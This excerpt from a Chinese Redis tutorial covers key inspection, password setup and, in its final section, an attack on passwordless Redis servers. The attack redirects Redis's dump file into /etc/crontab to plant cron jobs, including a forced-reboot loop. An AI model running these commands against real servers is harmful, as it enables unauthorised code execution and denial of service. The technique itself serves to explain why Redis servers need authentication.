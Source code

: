 ### 2: 查看key的情况
```python
keys *   #查看所有key的命令，不建议使用，上千万的key会使redis服务器堵塞
RANDOMKEY #随意返回一个key
SCAN 0  #可利用scan的索引取所有的key，使用程序可以循环取出key  不断取索引直到返回为0代表数据已经取完
```

## 六、redis加密和无密攻击

### 1.加密码方法

加密有两种方式

#### 1）.通过配置/usr/local/redis/conf/redis.conf

```python
requirepass 'shijiange' #需要重启redis

加密redis的操作方法
redis-cli 登录进去以后auth 'shijiange'
redis-cli -a 'shijiange' info 非交互式的操作
```


#### 2）.通过客户端(无需重启redis): 
```python
auth 'shijiange'   #加完密码后，需要使用auth去认证才能操作redis服务器
config get requirepass #获取指定配置
config set requirepass '' #无需重启redis服务器将密码置为空，平滑更新配置
config rewrite   #平常更新配置完后需要写入到配置文件，预防重启后配置失效
config set requirepass 'shijiange' #重新设置密码
```



### 2.入侵无密码redis服务器(rdb存储)

RDB存储攻击



0 1 * * * /sbin/reboot           ( 0 1 * * *表示每天凌晨一点重启.)

```python
redis-cli -h xxx.xxx.xxx.xxx config set dir /etc/  #用config set把redis路径定义到ETC里面

redis-cli -h xxx.xxx.xxx.xxx config set dbfilename "crontab" #将dbfilename设置到crontab

/tmp/attack的内容(需要四个回车前后两个回车)
* * * * * root echo 'attack'    #如果定义成reboot可以造成服务器一直重启

# 0 1 * * * /sbin/reboot           ( 0 1 * * *表示每天凌晨一点重启.)

cat /tmp/attack | redis-cli -h xxx.xxx.xxx.xxx -x set attack  #-x会从标准输出中读取 设置了attack的key值  value是/tmp/attack中的内容
redis-cli -h 127.0.0.1 save  #触发rdb存储
vim  /etc/crontab  #查看
# 多出
* * * * * root echo 'attack'
#  该命令可以任意修改  可以跑任意进程


```
